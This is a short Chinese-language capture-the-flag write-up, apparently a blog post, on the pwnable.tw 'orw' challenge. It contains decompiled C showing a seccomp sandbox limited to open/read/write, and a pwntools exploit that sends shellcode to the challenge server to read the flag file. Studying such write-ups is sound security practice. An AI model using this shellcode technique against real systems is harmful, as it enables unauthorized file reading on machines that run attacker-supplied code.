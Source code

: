 ```yaml
---
title: pwnable.tw::orw
date: 2021-10-17 21:29:57
tags: pwn
---
```


## 保護機制
Canary, Partial RELRO

## 分析
### main
<!-- more -->
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  orw_seccomp();
  printf("Give my your shellcode:");
  read(0, &shellcode, 0xC8u);
  ((void (*)(void))shellcode)();
  return 0;
}
```
### orw_seccomp
```c
unsigned int orw_seccomp()
{
  __int16 v1; // [esp+4h] [ebp-84h]
  char *v2; // [esp+8h] [ebp-80h]
  char v3; // [esp+Ch] [ebp-7Ch]
  unsigned int v4; // [esp+6Ch] [ebp-1Ch]

  v4 = __readgsdword(0x14u);
  qmemcpy(&v3, &unk_8048640, 0x60u);
  v1 = 12;
  v2 = &v3;
  prctl(38, 1, 0, 0, 0);
  prctl(22, 2, &v1);
  return __readgsdword(0x14u) ^ v4;
}
```
在C語言有一種”SandBox模式”, 限制程式只能使用 `open()`, `read()`, `write()`

可以通過`seccomp()` 或是`prctl()`開啟

所以這裡的邏輯不重要, 只要知道只能 open, read, write就好

也不用繞canary, 因為沒有Control PC

## exploit
```python
#!/usr/bin/env python2 

from pwn import *
import pwnlib.shellcraft

p = remote('chall.pwnable.tw', 10001)

context.log_level = 'debug'

shellcode = shellcraft.i386.pushstr('/home/orw/flag')
shellcode += shellcraft.i386.linux.syscall('SYS_open', 'esp')
shellcode += shellcraft.i386.linux.syscall('SYS_read', 'eax', 'esp', 0x50)
shellcode += shellcraft.i386.linux.syscall('SYS_write', 1, 'esp', 0x50)

p.sendlineafter('Give my your shellcode:', asm(shellcode))

print p.recv()

p.close()
```

